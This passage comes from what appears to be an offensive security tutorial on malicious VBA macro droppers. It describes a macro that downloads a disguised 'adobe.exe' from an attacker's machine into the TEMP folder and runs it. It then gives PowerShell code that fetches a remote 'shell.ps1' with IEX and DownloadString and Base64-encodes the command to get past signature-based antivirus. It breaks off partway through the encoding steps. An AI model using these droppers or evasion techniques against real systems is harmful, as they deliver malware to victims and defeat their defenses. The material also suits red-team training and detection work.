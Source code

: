 1. **Uses** `Environ("TEMP")` **to dynamically locate the user's temp folder**.
2. **Downloads** `adobe.exe` from the attacker's machine.
3. **Saves it in the Windows TEMP directory**.
4. **Executes the payload**.

**Why use the TEMP folder?**

- **Bypasses some AV heuristics**.
- **More flexible** for execution across different user environments.
- Often used in **phishing payloads and post-exploitation frameworks**.

* * *

### Encoded Dropper

#### Understanding PowerShell Base64 Encoding for Obfuscation

This script **encodes a PowerShell command in Base64** and then attempts to execute it using VBA. **Base64 encoding is commonly used to obfuscate malicious scripts**, making them harder to detect by signature-based security tools.

* * *

#### 1. Understanding the Encoding Process

The following **PowerShell command** is designed to:

1. **Download and execute a remote PowerShell script** (`shell.ps1`).
2. **Encode the command in Base64** to avoid detection.
3. **Execute the encoded command using PowerShell’s** `-EncodedCommand` **flag.**

**Encoding the PowerShell Command**

```
$command="IEX (New-Object Net.WebClient).DownloadString('http://<ip>:8080/shell.ps1')"
$bytes=[System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand=[Convert]::ToBase64String($bytes)
Write-Output $encodedCommand
```

**Step-by-Step Breakdown**

1. **Define the command**:

```
$command="IEX (New-Object Net.WebClient).DownloadString('http://<ip>:8080/shell.ps1')"
```

- Uses `IEX (Invoke-Expression)` to execute the **downloaded PowerShell script in memory**.
- The script `shell.ps1` is hosted on `<ip>:8080`.

**2. Convert the command to bytes in Unicode format**:

```
$bytes=[System.Text.Encoding]::Unicode.GetBytes($command)
```

- PowerShell’s `-EncodedCommand` parameter **expects Unicode encoding**, so we encode the string as Unicode.
